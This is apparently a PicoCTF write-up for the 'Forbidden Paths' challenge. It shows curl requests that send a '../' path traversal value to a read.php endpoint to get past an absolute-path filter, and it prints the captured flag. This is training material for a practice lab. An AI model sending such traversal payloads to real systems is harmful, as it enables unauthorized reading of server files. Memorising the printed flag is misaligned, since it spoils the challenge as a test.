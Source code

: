 # Forbidden Paths #

This is the write-up for the challenge "Forbidden Paths" challenge in PicoCTF

## The challenge ##

### Description ###
you can find the challenge [here](https://play.picoctf.org/practice/challenge/270)  
the challeges says:  
> Can you get the flag?  
> We know that the website files live in `/usr/share/nginx/html/` and the flag is at `/flag.txt` but the website is filtering absolute file paths. Can you get past the filter to read the flag?  

![mission image](img/mission.png) 

## How I Solve The Challege ##
In the website there are only a path input.  
![homepage image](img/homepage.png)  
on inspection I see nothing wrong with the website, the form just send a POST request to the `/read.php` page.  
for example we can send the next request to see how they process the data:  
```console
$: curl http://saturn.picoctf.net:<port>/read.php -X POST -F "filename=read.php" -s
```
after tring and failed to get the `/flag.txt` file (we know that "the website is filtering absolute file paths." from the description of the files) we ttried to get the `../../../../flag.txt` we successfuly see the data data, with regex we found the key:

```console
#: curl http://saturn.picoctf.net:<port>/read.php -X POST -F "filename=../../../../../flag.txt" -s | grep -Eo picoCTF{.*?}
picoCTF{7h3_p47h_70_5ucc355_e5fe3d4d}
```

Voila!!! 😎  
The flag is `picoCTF{7h3_p47h_70_5ucc355_e5fe3d4d}`  
Cheers 😄  


